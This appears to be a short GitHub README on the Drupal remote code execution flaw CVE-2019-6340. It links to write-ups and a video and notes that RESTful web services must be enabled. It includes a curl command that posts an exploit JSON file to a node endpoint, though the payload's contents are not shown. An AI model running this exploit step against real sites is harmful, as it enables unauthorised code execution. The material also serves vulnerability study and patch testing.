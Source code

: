 # Drupal-SA-CORE-2019-003 CVE-2019-6340
Drupal SA-CORE-2019-003 CVE-2019-6340

 CVE-2019-6340.md
https://mp.weixin.qq.com/s/EQD4-K6HgBY9wdzeXeyzkg

https://paper.seebug.org/821/


https://www.youtube.com/watch?v=QtLDDN0Duko

[linkname](https://www.youtube.com/watch?v=QtLDDN0Duko)




https://pbs.twimg.com/media/D0C-KiXX4AM2vR3.jpg:large

![marty-mcfly](https://pbs.twimg.com/media/D0C-KiXX4AM2vR3.jpg:large)


CVE-2019-6340 isn’t a default configuration, you have to manually enable Restful web services: 




![marty-mcfly](https://pbs.twimg.com/media/D0EShBfWwAEXxK0.jpg:large)


Command
$ curl -k -v -H 'Content-Type: application/json' -d @./drupalrce.json 'https://<http://your.web.site >/node/<node_id>?_format=hal_json'

file drupalrce.json


![marty-mcfly](https://pbs.twimg.com/media/D0MAcBJXQAADbCw.jpg:large)
